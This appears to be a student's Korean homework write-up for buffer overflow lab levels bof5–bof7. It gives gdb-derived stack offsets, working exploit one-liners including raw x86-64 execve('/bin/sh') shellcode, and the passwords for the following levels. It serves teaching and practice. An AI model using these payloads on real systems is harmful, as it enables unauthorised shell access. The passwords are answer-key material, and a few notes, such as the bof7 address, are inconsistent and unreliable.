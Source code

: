 # hw3 (bof5~7)


> bof5  
1. 이전과 비슷하나 innocent와 key값이 같을 때 /bin/sh를 실행하지않고 system() 함수를 buf를 인자로 실행한다. 
2. 그럼 buf에 쉘코드(/bin/sh)를 넣어주고
3. buf와 innocent 사이의 크기에서 /bin/sh의 크기 + \x00(8bytes)를 뺸 값을 (\x00은 뒤에서 설명) Dummy 값으로 넣어주며 innocent에 넣어줄 key 값을 little endian 형식으로 입력하면 된다.

>> 답(bof6.pw): b35aad61

>> 풀이:

    b.p.1: gets할 떄 $rdi  0x7fffffffeb00
    b.p.2: cmp에서 $rbp -4 주소값  0x7fffffffeb8c
    bp1과 bp2 차이 = 140


이때 /bin/sh를 끝맺음 짓기위해 \x00를 추가적으로 넣어준다. 만약 \x00이 없다면 뒤에 있는 dummy값까지 고려되기 때문에 실패할 것이다.

    (python -c "print '/bin/sh' + '\x00' + 'A' * 132 + '\x78\x56\x34\x12'";cat) | ./bof5


> bof6
1. gets(buf)에서 $rdi를 확인하여 buf의 주소 확인
2. buf부터 ret전까지 Dummy값으로 채우고 ret에 쉘코드가 담긴 shellcode[]주소 넣기

>> 답(bof7.pw): ffa35d7e

>> 풀이:

    b.p.1: printf shellcode에서 shellcode[]의 시작주소 확인 0x7fffffffeb30
    b.p.2: gets 할 때 $rdi (buf 시작주소), $rbp = sfp 까지 주소값
    $rdi: 0x7fffffffeb10
    $rbp: 0x7fffffffeb90
    rbp-rdi = 128
    128 + sfp(8) = 136 bytes의 Dummy 값 (64bits)

    (python -c "print 'A' * 136 + '\x30\xeb\xff\xff\xff\x7f'";cat) | ./bof6

> bof 7
1. vuln 함수의 ret에 buf 주소를 넣어 vuln함수가 끝날 때 buf로 return이 되도록함
2. buf에 저장되는 main의 argv[1] 값을 buf~ret까지의 크기를 구하고 그 크기만큼의 shellcode+DUMMY 값 입력

>> 답(bof8.pw): 0dc54105

>> 풀이:

    b.p.1: vuln실행 직후 $rsp - 12 값 확인-> (*64bits에서 주소는 6bits)
    $rsp - 12: 0x7fffffffeb7c (rsp = vuln stack의 argv 부분까지 포함, -12 ==> ret의 시작주소까지)
    b.p.2: vuln의 프롤로그 직후 $rsp + 4 (buf)
    $rsp + 4: 0x7fffffffeaf4
    차이: 136 (buf~ret)

argv를 SHELLCODE+DUMMY (136) + buf주소(6)로 입력. argv를 받는 식이니 standard input이 아니다!

    ./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109+'\xb0\xea\xff\xff\xff\x7f'"`